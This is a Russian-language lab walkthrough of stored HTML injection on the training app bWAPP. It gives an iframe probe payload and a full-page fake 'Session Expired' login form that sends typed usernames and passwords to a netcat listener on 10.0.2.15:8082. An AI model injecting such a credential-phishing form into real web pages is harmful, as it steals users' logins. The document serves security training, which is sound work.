

# Уязвимость HTML Injection — Stored (Blog) уровень

**low**


Поднимаем bWAPP и запускаем Netcat и слушаем порт 8082 (в настройках прокси в браузере выставляем ip 127.0.0.1 и 8082 порт). В поле ввода на bwapp водим 
```bash
<div class="code"><iframe SRC="http://10.0.2.15:8080/blah" height="0″ width="0″></iframe></div>
```
Переходим в терминал и видим полученную информацию. теперь мы знаем, что на данной странице существует уязвимость HTML Ingection (рис 1).


Рисунок 1

Теперь используя HTML, нужно создать на уязвимой веб-странице код для ввода логина и пароля. Выглядеть он будет так:  

```bash
 <div class="code">test</div>

<div style="position: absolute; left: 0px; top: 0px; width: 800px; height: 600px; z-index: 1000; background-color: white;">

Session Expired, Please Login:<br>
<form name="login" action="http://10.0.2.15:8082/lol.htm" method="GET">
<table>
<tr><td>Username:</td><td><input type="text" name="uname"/></td></tr>
<tr><td>Password:</td><td><input type="password" name="pw"/></td></tr>
</table>
<input type="submit" value="Login"/>
</form>
</div>
```
Включаем прослушивание порта в netcat и вводим наш код в поле на странице (видим поля ввода пароля и логина) (рис 2)  
  


Рисунок 2

После ввода логина и пароля, получаем открытое соединение, с переданной информацией, в том числе логина и пароля (рис 3)  
  


Рисунок 3